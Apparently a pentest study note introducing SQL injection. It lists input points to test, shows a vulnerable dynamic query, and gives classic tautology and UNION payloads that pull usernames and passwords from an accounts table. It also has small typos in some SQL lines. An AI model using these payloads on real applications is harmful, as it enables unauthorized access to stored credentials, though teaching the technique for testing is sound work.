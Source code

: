 ## SQL

It's a **backend database** to store the data they process

## SQL Injections

SQL Injection(SQLi) attacks allow an unathorized user to **take control over SQL statements** used by a web application

To find SQL injections, we need to check any user input (every input must be tested to conduct a professional pentest):

+ GET parameters
+ POST parameters
+ HTTP Headers
  + User-Agent
  + Cookie
  + Accept

Tests can be:

+ String terminators:` ' and ''`
+ SQL commands: `SELECT, UNION and others`
+ SQL comments: `# or --`


## SQL STATEMENTS

```SQL

SELECT columns1,columns2 FROM table1 WHERE file;
 
SELECT name,description FROM products WHERE ID=9;

```

# Union example

> **SELECT** Name, Description **FROM** Products **WHERE** ID='9' **UNION SELECT** Username,Passwword **FROM** Accounts;

Can also perform a UNION with some *chosen data*

> **SELECT** Name, Description **FROM** Products **WHERE** ID='9' **UNION SELECT** 'Example','Data';

## VULNERABLE DYNAMIC QUERIES

```SQL
-- This dynamic query expects $id values as a string:
SELECT Name, Description FROM Products WHERE ID='$id'

-- But what if an attacker crafts a $id value which can change the query to something like ` OR 'a'='a` 
-- then the query becomes:
SELECT Name, Description FORM Products WHERE UD='' OR 'a'='a';
-- ...which tells the database to select the items by checking two conditions which is always true.

-- An attacker could also exploit the UNION command by supplying the following:
-- ' UNION SELECT Username, Password FROM Accounts WHERE 'a'='a
-- Thus it changes the original query to:

SELECT Name, Description FROM Products WHERE ID='' UNION SELECT Username, Password FROM Accounts WHERE 'a'='a';
```

